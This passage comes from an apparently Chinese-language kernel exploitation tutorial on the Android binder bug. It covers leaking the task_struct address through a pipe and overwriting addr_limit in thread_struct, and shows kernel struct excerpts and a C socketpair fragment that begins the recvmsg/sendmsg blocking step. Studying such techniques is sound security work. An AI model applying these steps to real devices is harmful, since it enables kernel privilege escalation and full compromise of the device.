 接着就是从管道读取 binder_thread 的剩余内容，从而泄露出 task_struct 的地址

### 修改 addr_limit

在 x86 的 task_struct 中存在 thread_struct x86 的 addr_limit 是放在 thread_struct 的

```
struct task_struct {
...
	struct thread_struct		thread;

	/*
	 * WARNING: on x86, 'thread_struct' contains a variable-sized
	 * structure.  It *MUST* be at the end of 'task_struct'.
	 *
	 * Do not put anything below here!
	 */
};

```

```
struct thread_struct {
	...

	mm_segment_t		addr_limit;

	unsigned int		sig_on_uaccess_err:1;
	unsigned int		uaccess_err:1;	/* uaccess failed */

	/* Floating point and extended processor state */
	struct fpu		fpu;
	/*
	 * WARNING: 'fpu' is dynamically-sized.  It *MUST* be at
	 * the end.
	 */
};

```

而在 thread_struct 中有 addr_limit, 因而我们可以根据 addr_limit 在 task_struct 的偏移来修改 addr_limit, 同样用泄露 task_struct 的方法来写入 addr_limit，但是 io 的堵塞 readv 做不到，得换成 recvmsg sendmsg socket，来堵塞 io

接着来说明步骤如何 patch 掉 addr_limit

```
    if(socketpair(AF_UNIX,SOCK_STREAM,0,sock_fd) == -1)
    {
         printf("[-]can not create socketpair\n");
         exit(EXIT_FAILURE);
    }else{
        printf("[+] created socketpair successfully\n");
    }

    printf("[+] writing junkcode to socket\n");

    static char junkSocketData[] = { 0x41  };
    nBytesWritten = write(sock_fd[1],&junkSocketData, sizeof(junkSocketData));

    if(nBytesWritten != sizeof(junkSocketData)){
        printf("[-] write junkcode failed , writed %lx, expected %lx",nBytesWritten,sizeof(junkSocketData));
        exit(EXIT_FAILURE);
    }

```
